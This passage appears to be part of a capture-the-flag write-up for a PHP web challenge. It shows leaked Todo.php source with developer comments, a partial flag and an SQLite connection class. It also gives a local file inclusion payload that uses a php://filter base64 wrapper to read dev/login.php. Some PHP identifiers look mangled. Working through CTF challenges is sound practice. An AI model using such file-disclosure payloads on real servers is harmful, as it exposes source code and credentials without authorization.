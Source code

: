  Todo.php

 ```html
 <html>
<head>
    <title> TODOs </title>
</head>
<body>
<?php 
// Newer and more "LIGHTER" version of current application available at /dev  which does not use any SQL languages... - admin
// TODO: 
// 1). Change Reused Usernames and Passwords in /dev/login.php - john
// 2). Add proper input validations in search catalogue. - adam
// 3). Add feature to handle TODO Lists dynamically using db_connection.php - adam
echo "<p>No TODOs For You! TODOs for internal devs only!</p></br>";
// FLAG-1: iitbCTF{Ech0es_0fTh3
?>

<!-- I know it seems weird, but only who has access to codebase for this file can read TODOs, so I know it is pretty secure! -->
</body>
</html>
<?php
class DatabaseConnection {
    private $db;

    public function construct() {
        try {
            $dbFilePath = DIR . DIRECTORY_SEPARATOR . "data/EverythingIsHere.db";
            $this->db = new SQLite3($dbFilePath);
            if (!$this->db) {
                throw new Exception("Database connection error.");
            }
        } catch (Exception $e) {
            echo "Error: " . $e->getMessage();
        }
    }

    public function getConnection() {
        return $this->db;
    }

    public function closeConnection() {
        if ($this->db) {
            $this->db->close();
        }
    }

    public function destruct() {
        $this->closeConnection();
    }
}
?>
 
 ```
 8. Second payload 
 ```php://filter/convert.base64-encode/resource=dev/login.php``` 
 which gives us hint to refer dashboard.php

/dev/login.php

 ```html
 <?php
session_start();
 ```